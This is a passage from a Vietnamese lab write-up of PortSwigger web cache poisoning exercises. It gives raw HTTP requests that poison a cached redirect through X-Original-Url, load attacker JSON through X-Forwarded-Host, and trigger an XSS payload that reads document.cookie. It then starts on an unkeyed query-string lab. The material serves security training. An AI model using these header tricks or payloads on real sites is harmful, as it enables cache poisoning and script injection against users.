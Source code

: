 ```json
```
- Mặc định người dùng sử dụng `en` làm ngôn ngữ chính, nhưng để kích hoạt được sự kiện **translate** cần sử dụng ngôn ngữ khác `en` 
- Ta sử dụng **X-Original-Url: /setlang/es//** để **cache** khi người dùng truy cập vào ứng dụng sẽ **set** lại coookie `lang`
    - Sử dụng `//` đằng sau bởi vì nếu để bình thương `/setlang/es/` thì sẽ không được **cache** do có response chứa header **Set-Cookie** 
    - Ngoài ra có thể sử dụng **X-Original-Url: /setlang\es/** 
    - Việc làm trên để server **normalization** và **redirect** đến `/setlang/es` => không có header **Set-Cookie** => được **cache**

#### Exploit
- Gửi **request** để người dùng sử dụng **cache** chứa trường set lại **cookie** thành `es` để kích hoạt sự kiện **translate**

```http
GET / HTTP/2
Host: 0a63008703e2827980ba80c7004d0043.web-security-academy.net
X-Original-Url: /setlang/es\\
```

```http
HTTP/2 302 Found
Location: /setlang/es/
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=30
Age: 1
X-Cache: hit
Content-Length: 0
```
- Khi người dùng đã set được **lang=es** => gửi **request** để **cache** tải **json** từ **exploit server**
- Sự kiện **translate** được kích hoạt => `View details": "<img src=1 onerror=alert(document.cookie)>"` được gán => **XSS** xảy ra

```http
GET /?localized=1 HTTP/2
Host: 0a63008703e2827980ba80c7004d0043.web-security-academy.net
X-Forwarded-Host: exploit-0ab900b00394827c80d87f40015400ad.exploit-server.net
```
- Phải gửi đến `/?localized=1` vì sau khi **set lang** người dùng sẽ được **redirect** tới đó
- Cứ gửi 2 **request** trên liên tục để cả 2 đều `hit` bởi vì không biết người dùng truy cập lúc nào

### Lab: Web cache poisoning via an unkeyed query string
- Truy cập ứng dụng
- Gửi **request** đến **Repeater**, thêm **query string** và gửi lại

```http
GET /?abc HTTP/2
Host: 0a43005104ad20beda3c5184002d009e.web-security-academy.net
```

```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=35
Age: 22
X-Cache: hit
```
- Gửi **request** đến `/bcd` => `X-Cache: hit` cho thấy tất cả các **query** đều dùng chung 1 **cache** `/`
- Khi **cache** được với **query** `/?abc` ta thấy có **reflected** ra **HTML** (phải chuyển từ `miss` qua `hit`)
